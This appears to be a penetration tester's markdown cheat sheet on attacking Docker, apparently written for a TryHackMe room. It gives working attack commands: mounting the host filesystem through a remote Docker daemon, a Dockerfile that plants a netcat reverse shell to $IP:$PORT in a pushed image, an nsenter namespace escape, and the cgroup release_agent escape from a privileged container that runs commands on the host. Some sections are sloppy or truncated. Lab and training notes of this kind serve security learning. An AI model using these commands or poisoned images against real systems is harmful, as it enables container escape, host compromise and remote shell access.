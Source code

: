 # Docker Hacking
How do you know you are in a docker container?
[pspy](https://github.com/DominicBreuker/pspy) on Linux
Systernals proc\*-related tools or access with tasklist for windows.

## How to know when you are in a container
```bash
.dockerenv
cat /proc/$pid/cgroup | grep docker
```

## Preface
Add IP and domain name to /etc/hosts
```bash
echo "$IP $DOMAIN" | tee -a /etc/hosts
```

Configure Docker to trust your instance, either make `/etc/docker/daemon.json` or enter:
```json
{
	 "target-id" : ["docker-domain.name:$DOCKERPORTLOW","docker-domain.name:$DOCKERPORTHIGH"]
}
```

Control Docker(Linux)
```bash
systemctl stop docker
systemctl start docker
```

## What is Docker and Containers?

The Docker Engine that is layer of computational organisation above the hardware, the host OS and its kernel. It is not a hypervisor. Each Docker contain must have the same kernel type to operate. A container is commonly used to hold an environment or specific OS of an OS family to test system variation of running software. It is similar to VM hosting but Docker with there is **NO** virtualisation, hence requiring host OS that host Contain running similar OSes. Docker images are a read-only template of instruction for creating a Docker container. 

[Some ways to secure a docker container](https://faun.pub/hack-your-docker-container-6d3e1e1b363)

## Docker Commands

```bash
RUN echo "Docker"
COPY 
````

[Commands](https://docs.docker.com/engine/reference/commandline/cli/)

##  Docker Enumeration
On target machine enumerate the lay of the land:
```bash
docker -H $remotehost $dockcmd
docker ps
docker version
docker image ls
docker config ls
```

[cli Tool](https://github.com/containers/skopeo)

## GTFOBins/docker
[gtofbins](https://gtfobins.github.io/gtfobins/docker/#shell)

## Accessing Docker Container and exec..
```
docker -H $remotehost run -v /:/mnt --rm -it -d $image:$tag
docker -H $remotehost run -v /:/mnt --rm -it $image:$tag chroot /mnt sh

```

## Abusing Docker Registry
[Docker registries](https://docs.docker.com/registry/) are stateless server side application stores the Docker Image. Registries store and provide Docker images for use. Private registeries contain variouses called a **tag**. The Docker Registry is a JSON endpoint query it with 

Nmap scan to find the ports to interact with the container.

```bash
# postman
GET http://$domain:$port/
````

## Reversing Images
Download the image to reverse
```docker
docker pull app/app:$TAG
```

[Dive](https://github.com/wagoodman/dive) is a tool for exploring each layer in a docker image. 

## Uploading Malicious Docker Images
Dockerfile 
```docker
FROM $image:

RUN apt-get update -y
RUN apt-get install netcat -y # Socat would be better!
RUN nc -c /bin/sh $IP $PORT
```
Build image
```bash
docker build
```
Then upload with push:
```
docker push
```

## Shared Namespaces
Namespaces segregate system resources. Have root access inside the container or potential use pspy. 
Find a namespace
```bash
ps aux
```
We then mount the namespace of the process running outside of the container with a sh shell.
```
nsenter --target $PID --mount sh
```

## Misconfigured Privilieges
If a docker container is running with privileged mode it bypasses the Docker engine and has direct communication with host OS. List container capabilities with:
```
capsh --print | grep # admin chroot sys_module sys_time
```
The commented out greppables indicate privilege mode. [PoC](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
```bash
# On the host
# docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## References

[Docker](https://docs.docker.com/get-started/overview/)
[THM Room](https://tryhackme.com/room/dockerrodeo)
[trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
[cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)